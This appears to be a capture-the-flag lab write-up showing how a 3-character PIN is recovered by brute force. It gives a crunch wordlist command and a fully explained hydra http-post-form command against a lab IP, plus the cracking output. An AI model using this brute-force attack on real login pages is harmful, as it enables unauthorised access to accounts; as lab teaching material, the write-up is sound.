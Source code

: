 ```html
    document.querySelectorAll('button[data-pin]').forEach((button) => {
      button.addEventListener('click', () => {
        const pin = button.getAttribute('data-pin');
        const pinInput = document.querySelector('input[name="pin"]')
        if (pin === '<') {
          // remove the last character
          pinInput.value = pinInput.value.substring(0, pinInput.value.length - 1);
        } else
```
we see that pin length is 3 and pin is stored in variable pin

we use crunch to generate a password list using this command-
```bash
crunch 3 3 0123456789ABCDEF -o 3digits.txt
```

- `3` the first number is the minimum length of the generated password
- `3` the second number is the maximum length of the generated password
- `0123456789ABCDEF` is the character set to use to generate the passwords
- `-o 3digits.txt` saves the output to the `3digits.txt` file

we then use hydra to crack the password
```bash
`hydra -l '' -P 3digits.txt -f -v 10.10.188.163 http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000`
```

- `-l ''` indicates that the login name is blank as the security lock only requires a password
- `-P 3digits.txt` specifies the password file to use
- `-f` stops Hydra after finding a working password
- `-v` provides verbose output and is helpful for catching errors
- `10.10.188.163` is the IP address of the target
- `http-post-form` specifies the HTTP method to use
- `"/login.php:pin=^PASS^:Access denied"` has three parts separated by `:`
    - `/login.php` is the page where the PIN code is submitted
    - `pin=^PASS^` will replace `^PASS^` with values from the password list
    - `Access denied` indicates that invalid passwords will lead to a page that contains the text “Access denied”
- `-s 8000` indicates the port number on the target

we then get 
```bash
[VERBOSE] Page redirected to http[s]://10.10.188.163:8000/error.php
[VERBOSE] Page redirected to http[s]://10.10.188.163:8000/error.php
[VERBOSE] Page redirected to http[s]://10.10.188.163:8000/error.php
[VERBOSE] Page redirected to http[s]://10.10.188.163:8000/error.php
[VERBOSE] Page redirected to http[s]://10.10.188.163:8000/error.php
[VERBOSE] Page redirected to http[s]://10.10.188.163:8000/error.php
[VERBOSE] Page redirected to http[s]://10.10.188.163:8000/error.php
[8000][http-post-form] host: 10.10.188.163   password: 6F5
[STATUS] attack finished for 10.10.188.163 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-12-05 11:29:57

```
it says error.php a lot of times and we finally get the password 6F5
we then login using the password and click on unlock door to get the flag

